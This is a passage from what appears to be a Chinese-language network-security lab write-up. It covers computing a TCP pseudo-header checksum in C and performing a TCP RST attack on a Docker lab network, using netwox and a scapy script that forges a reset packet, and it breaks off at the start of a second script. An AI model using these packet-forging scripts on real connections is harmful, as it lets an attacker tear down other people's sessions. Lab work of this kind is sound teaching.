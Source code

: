 
    /****************************************************************
    TCP checksum is calculated on the pseudo header, which includes
    the TCP header and data, plus some part of the IP header.
    Therefore, we need to construct the pseudo header first.
    *****************************************************************/
    unsigned short calculate_tcp_checksum(struct ipheader *ip)
    {
    struct tcpheader *tcp = (struct tcpheader *)((u_char *)ip +
                                sizeof(struct ipheader));

    int tcp_len = ntohs(ip->iph_len) - sizeof(struct ipheader);

    /* pseudo tcp header for the checksum computation */
    struct pseudo_tcp p_tcp;
    memset(&p_tcp, 0x0, sizeof(struct pseudo_tcp));

    p_tcp.saddr  = ip->iph_sourceip.s_addr;
    p_tcp.daddr  = ip->iph_destip.s_addr;
    p_tcp.mbz    = 0;
    p_tcp.ptcl   = IPPROTO_TCP;
    p_tcp.tcpl   = htons(tcp_len);
    memcpy(&p_tcp.tcp, tcp, tcp_len);

    return  (unsigned short) in_cksum((unsigned short *)&p_tcp,
                                        tcp_len + 12);
    }


## TCP RST攻击

在客户机和服务机连接的情况下

用wireshark抓包分析此时的seq和ack

### netwox

    netwox 78 -d docker0 -i 172.17.0.3

### scapy

手动需要wireshark抓包分析seq和ack

    #!/usr/bin/python3
    from scapy.all import *

    print("SENDING RESET PACKET.........")
    ip  = IP(src="172.17.0.2", dst="172.17.0.3")
    tcp = TCP(sport=23, dport=41290,flags="R",seq=1439095372)
    pkt = ip/tcp
    ls(pkt)
    send(pkt,verbose=0)

自动比较方便

    #!/usr/bin/python3
    from scapy.all import *
